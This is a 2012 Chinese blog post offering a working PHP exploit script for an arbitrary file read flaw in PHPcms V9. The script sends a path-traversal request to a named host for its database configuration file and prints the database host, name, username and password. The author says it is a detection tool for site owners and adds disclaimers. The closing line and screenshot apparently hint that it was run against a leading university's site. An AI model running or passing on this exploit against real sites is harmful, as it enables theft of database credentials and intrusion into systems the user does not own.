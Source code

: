 title: "phpcmsV9最新任意读文件漏洞利用工具"
id: 159
date: 2012-07-25 02:36:28
tags: 
- phpcmsv9漏洞
- 任意读取文件漏洞
categories: 
- 原创作品
- 技术文章
- 最新漏洞
---

<span style="color: #ff0000;">注意：本程序带有攻击性，仅供学习研究请勿当作非法工具使用，否则后果自负，</span><span style="color: #ff0000;">于本人无关！</span>

睡觉前去论坛上面看了下，爆出 phpcmsV9最新任意读文件漏洞 ，第一反映就是

完了，估计互联网上又不知道多少万用户数据被脱了~~

自己就写了一个此漏洞的检测工具方便站长们检测自己的站点是否存在漏洞。

代码：

```php
<?php
/**
 * PHPcms V9 任意文件读取漏洞检测工具
 * @author Return Blog: www.creturn.com
 * Email: master@creturn.com
 *
 * 注意本程序仅供学习参考，不得用于非法互动
 * 否则后果自负，与本人无关！
 */

function showInfo() {

print '
***********************************************
* PHPcmsV9 Read All File ExpTool By: Return
*
* Blog: www.creturn.com
*
* Email:master@creturn.com
*
* Example: php exp.php wwww.phpcms.cn
***********************************************
';
}

$exp = '/index.php?m=search&amp;c=index&amp;a=public_get_suggest_keyword&amp;url=asdf&amp;q=../../caches/configs/database.php';

//file_get_contents(''.$exp);
if(count($argv) &lt; 2){
 showInfo();
}else{

 $exp = 'http://'.$argv[1].$exp;
 $data = @file_get_contents($exp);
 @file_put_contents('expDatabase.php', $data);
 if(strstr($data,'&lt;html&gt;')){
 showInfo();
 echo 'Not found !';
 exit();
 };
 $database = include 'expDatabase.php';
 showInfo();
 $out = 'HostName: '.$database['default']['hostname']."n";
 $out .='DataBase:'. $database['default']['database']."n";
 $out .='UserName:'. $database['default']['username']."n";
 $out .='Password:'. $database['default']['password']."n";
 if(!empty($database)){
 echo "Found it! :nn";
 echo $out;
 }
 @unlink('expDatabase.php');
}
```
<!--more-->

国内第一名校，你懂得~~ ：

[![](http://asset.creturn.com/asset/uploads/2012/07/phpcmsV9.jpg "phpcmsV9")](http://asset.creturn.com/asset/uploads/2012/07/phpcmsV9.jpg)
